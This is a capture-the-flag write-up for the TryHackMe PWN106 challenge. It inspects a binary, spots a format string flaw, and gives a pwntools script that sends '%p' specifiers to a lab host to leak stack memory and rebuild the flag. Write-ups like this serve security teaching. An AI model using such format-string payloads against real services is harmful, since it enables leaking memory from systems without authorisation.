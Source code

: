 # **THM - PWN101 - Format String (PWN106)**


## **Gathering information**

### **Binary behaviour**

Binary takes input user and displays it (if you look at the screen below, you can see some strange behaviour when we provided `%f` - we can suspect that binary is vulnerable to format string attack).


![](p/1.png)


### **File protections**


![](p/2.png)


Well, binary has a good protection, so performing buffer overflow attack can be really hard or impossible.


## **Reversing binary**


![](p/3.png)


At line 16th we can see that there is no input validation and the program prints whatever we want - that can be leveraged to perform *format string attack*. Now, we can look for some interesting strings to do that we can use `izz` in `radere2`.


![](p/4.png)



### **Exploitation (Proof Of Concept)**

```python
from pwn import *

# Receiving content

process = remote('10.10.165.139','9006')
process.recv()
process.sendline("%6$p %7$p %8$p %9$p %10$p %11$p")
content = process.recvline_contains("Thanks", timeout=2)

print("[*] Got a content:\n")
print(content)

# Building flag from content

flag = re.search(r"(0x[0-9a-f]+) (0x[0-9a-f]+) (0x[0-9a-f]+) (0x[0-9a-f]+) (0x[0-9a-f]+) (0x[0-9a-f]+)$", content.decode(), re.IGNORECASE)

flag_groups = (
    int(flag.group(1),16),
    int(flag.group(2),16),
    int(flag.group(3),16),
    int(flag.group(4),16),
    int(flag.group(5),16),
    int(flag.group(6),16),
)

final_flag = ""

for g in flag_groups:
    for i in range(8):
        final_flag += (chr(g >> (i * 8) & 0xff))

print(final_flag)
```


![](p/5.png)


We successfully expolited format string vulnerability and we got our flag.
